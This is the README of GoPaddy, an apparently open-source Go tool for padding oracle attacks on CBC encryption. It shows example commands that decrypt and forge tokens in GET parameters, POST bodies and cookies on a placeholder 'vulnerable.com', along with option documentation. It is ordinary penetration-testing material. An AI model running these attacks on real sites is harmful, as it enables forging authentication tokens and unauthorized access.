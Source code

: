 # GoPaddy

A fast, Golang, concurrent tool to perform Padding Oracle attacks against CBC mode encryption.<br>
**Supports both encryption and decryption** of arbitrary length data and tokens.<br>
For more info about this attack vector see: https://en.wikipedia.org/wiki/Padding_oracle_attack

![demo](demo.gif)


### Installation/Update
```console
go get -u github.com/glebarez/GoPaddy
```

### Examples
- Decrypt tokens in GET parameters
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Decrypt tokens in GET parameters (lowercase hex)
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -e lhex "2a7bc39262b122e58b13a95de49677b056c41a577f9d6904b921c0b0763c2cf3"
````

- POST data
```console
GoPaddy -u "http://vulnerable.com/login" -post "token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Cookies
```console
GoPaddy -u "http://vulnerable.com/login" -cookie "auth=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Encrypt token in GET parameter
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -enc "EncryptMe"
```

- Encrypt token in GET parameter (lowercase hex)
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -enc -e lhex "EncryptMe"
```

### Note on tool chaining
All the fancy stuff (logo and progress tracking) is written to STDERR. <br>
Thus you may safely redirect STDOUT to a file, or pipe it with another tool. <br>
Only successfully processed values will be written to redirection target. <br>
You can supply (multiple) input values into STDIN as well.

### Usage
```console
GoPaddy [OPTIONS] [INPUT]
```

INPUT:

	In decrypt mode:
	the encoded (as plaintext) value of valid cipher, whose value is to be decrypted
	if not passed, GoPaddy will use STDIN, reading ciphers line by line
	The provided cipher must be encoded as specified in -e and -r options.

	In encrypt mode:
	the plaintext to be encrypted
	if not passed, GoPaddy will use STDIN, reading plaintexts line by line

	

OPTIONS:

-u

	Vulnerable URL (one that produces padding errors).
    Use $ character to define cipher placeholder for GET request.
	Example:
    	if URL is "http://vulnerable.com/?parameter=$"
		then HTTP request will be sent as "http://example.com/?parameter=payload"
		the payload will be filled-in as a cipher, encoded using 
		specified encoder and replacement rules (see options: -e, -r)

-err

	A padding error string as presented by the server.
    HTTP responses will be searched for this string to detect 
	padding oracle. Regex is supported.
    Only response body is matched.

-e

	Encoding, used by the server to encode binary ciphertext in HTTP context.
	This option is used in conjunction with -r option (see below)
	Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-enc

    Encrypt mode
-r

	Character replacement rules that server applies to encoded ciphertext.
	Use odd-length strings, consisting of character pairs: <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~',
		then use -r "/!+-=~"

-cookie

	Cookie value to be decrypted in HTTP requests.
	Use $ character to define cipher placeholder.

-post

	If you need to perform POST requests (instead of GET), 
	then provide string payload for POST request body in this parameter.
	Use $ character to define cipher placeholder.
        Example: 
                  -post "vuln_param=$"
          

-ct

	Content-Type to be set in HTTP requests.
    This option is only effective when -post option is used.
	If not specified, Content-Type will be inferred automatically
    based on data, provided in -post option.
	
-b

	Block length used in encrypting (always 16 for AES)
	Supported values:
		8
		16 *default*
		32

-p

	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy

	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP

-nologo

	Don't show logo. Useful when GoPaddy is used in tool chaining and called many times.
